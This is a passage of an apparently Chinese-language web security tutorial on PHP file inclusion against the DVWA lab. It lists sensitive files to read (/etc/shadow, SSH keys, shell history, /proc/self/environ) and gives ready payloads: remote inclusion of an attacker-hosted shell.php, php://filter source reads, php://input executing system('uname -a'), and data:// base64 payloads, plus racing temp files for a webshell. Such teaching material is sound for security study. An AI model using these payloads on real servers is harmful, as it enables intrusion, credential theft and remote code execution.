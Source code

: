 /root/.ssh/id_rsa.pub

/root/.ssh/known_hosts

/etc/shadow

/root/.bash_history

/root/.mysql_history

/proc/self/fd/fd[0-9]* (文件标识符)

/proc/mounts

/proc/config.gz

本地文件包含也可以用来包含session文件（session文件一般在/tmp目录下，格式为sess_[phpsessid]），

日志文件、

上传的临时文件，包含其他由php创建的tmp文件上传一个文件的过程,可以在tmp那里包含：向服务器上**任意php**文件以form-data方式提交请求上传数据时，会生成临时文件,通过phpinfo来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要竞争时间包含临时文件拿到webshell。

![](http://www.secbox.cn/wp-content/uploads/2015/12/23.jpg)
,缓存文件

包含系统环境
linux(FreeBSD是没有这个的)下的/proc/self/environ
要求是php运行早cgi上面(具体没测试)...然后和包含日志一样,在User-agent修改成payload.
Exploiting LFI to RCE /proc/self/environ with burpsuite:

## 远程文件包含利用 ##

1、当php配置中allow_url_fopen和allow_url_include是打开时，就可以尝试包含远程文件，此时可以直接用来包含webshell等脚本文件。
如：http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://xxx.com/shell.php,其中http://xxx.com/shell.php为远程shell文件。

同理也可以使用https或者ftp或者http
使用PHP封装协议：

?file=[http|https|ftp]://example.com/shell.txt

(需要allow_url_fopen=On并且 allow_url_include=On)

![](http://www.secbox.cn/wp-content/uploads/2015/12/5.png)

如php流filter http://127.0.0.1/DVWA/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php

(不需要开启allow_url_include)

此时访问次链接就会得到网页源码的base64代码。
php://input可以执行文件
当访问http://127.0.0.1/DVWA/vulnerabilities/fi/?page=php://input时，使用burpsuite进行截取
在post中提交数据即可，如<?php system('uname -a') ?>

(需要allow_url_include=On,[详细](http://php.net/manual/en/wrappers.php.php)

利用data URIs：
?file=data://text/plain;base64,base64编码的payload
(需要allow_url_include=On)
